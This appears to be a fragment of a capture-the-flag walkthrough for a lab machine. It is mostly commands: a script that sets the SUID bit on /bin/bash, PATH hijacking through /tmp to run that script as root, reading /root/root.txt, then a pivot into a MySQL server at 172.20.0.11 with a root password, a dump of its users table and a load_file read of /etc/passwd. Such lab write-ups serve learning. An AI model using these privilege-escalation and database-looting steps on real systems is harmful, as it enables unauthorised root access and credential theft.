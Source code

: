 ```bash
#!/bin/bash
chmod 4755 /bin/bash
```

```bash
export PATH=/tmp:$PATH
ersatool
create
asdasd

bash -p

cat /root/root.txt
```

> root.txt

# 172.20.0.11
## nmap
22 - ssh
3306 - mySQL

```bash
mysql -uroot -p -h 172.20.0.11
2108@C00l
```
```sql
show databases;
use static;
show tables;
describe users;
select * from users;
select load_file("/etc/passwd");
```
